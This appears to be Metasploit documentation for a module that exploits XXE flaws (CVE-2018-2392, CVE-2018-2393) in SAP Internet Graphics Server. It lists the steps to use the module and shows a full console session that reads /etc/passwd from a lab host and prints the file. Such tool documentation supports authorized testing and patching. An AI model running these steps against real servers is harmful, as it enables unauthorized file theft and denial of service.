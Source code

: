 ## Vulnerable Application
This module exploits these vulnerabilities, CVE-2018-2392 and CVE-2018-2393, within version 7.20, 7.20EXT, 7.45, 7.49,
and 7.53 of SAP Internet Graphics Server (IGS). Both of these vulnerabilities occur due a lack of validation on XML
External Entities when XML files are uploaded via the /XMLCHART page. Unauthenticated remote attackers can exploit
these vulnerabilities to either read files from the server's file system as the XXX user, or conduct a denial of service
attack against the vulnerable SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) where it provides a way infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where it provides a way for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

SAP IGS versions: 7.20, 7.20EXT, 7.45, 7.49, 7.53 are affected by this vulnerability.

Installing and Updating the IGS [instructions][2].

Configuring the IGS [instructions][3].

Administering the IGS [instructions][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Verify that the `check` method correctly identifies if the target is vulnerable or not.
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### PATH

This is the path to the XMLCHART page of the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 172.16.30.29
RHOSTS => 172.16.30.29
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          no        File to read from the remote server
   PATH     /XMLCHART            yes       Path to the SAP IGS XMLCHART page from the web root
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.30.29         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check

[*] System is vulnerable, but the file /etc/os-release was not found on the host 172.16.30.29
[+] 172.16.30.29:40080 - The target is vulnerable. 172.16.30.29 returned a response indicating that its XMLCHART page is vulnerable to XXE!
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 172.16.30.29

[+] File: /etc/passwd content from host: 172.16.30.29
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:107:112:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
haldaemon:x:101:102:User for haldaemon:/var/run/hald:/bin/false
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
messagebus:x:100:101:User for D-Bus:/var/run/dbus:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
ntp:x:74:108:NTP daemon:/var/lib/ntp:/bin/false
polkituser:x:104:107:PolicyKit:/var/run/PolicyKit:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
pulse:x:105:109:PulseAudio daemon:/var/lib/pulseaudio:/bin/false
puppet:x:103:106:Puppet daemon:/var/lib/puppet:/bin/false
root:x:0:0:root:/root:/bin/bash
sshd:x:71:65:SSH daemon:/var/lib/sshd:/bin/false
suse-ncc:x:106:111:Novell Customer Center User:/var/lib/YaST2/suse-ncc-fakehome:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
uuidd:x:102:104:User for uuidd:/var/run/uuidd:/bin/false
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
admin:x:1000:100:admin:/home/admin:/bin/bash
j45adm:x:1001:1001:SAP System Administrator:/home/j45adm:/bin/csh
sybj45:x:1002:1001:SAP Database Administrator:/sybase/J45:/bin/csh
sapadm:x:1003:1001:SAP System Administrator:/home/sapadm:/bin/false
[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20201004145707_SAP_TEST_172.16.30.29_sap.igs.xmlchart.xxe_245322.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.29  40080  tcp    http  open   SAP Internet Graphics Server (IGS)

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                             References
---------                ----          ----                                             ----------
2020-10-04 11:57:07 UTC  172.16.30.29  SAP Internet Graphics Server (IGS) XMLCHART XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host          service  type                  name         content     info                  path
----          -------  ----                  ----         -------     ----                  ----
172.16.30.29           sap.igs.xmlchart.xxe  /etc/passwd  text/plain  SAP IGS XMLCHART XXE  /Users/vladimir/.msf4/loot/a6830367b9fbf8f75b13-20201004145707_SAP_TEST_172.16.30.29_sap.igs.xmlchart.xxe_245322.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
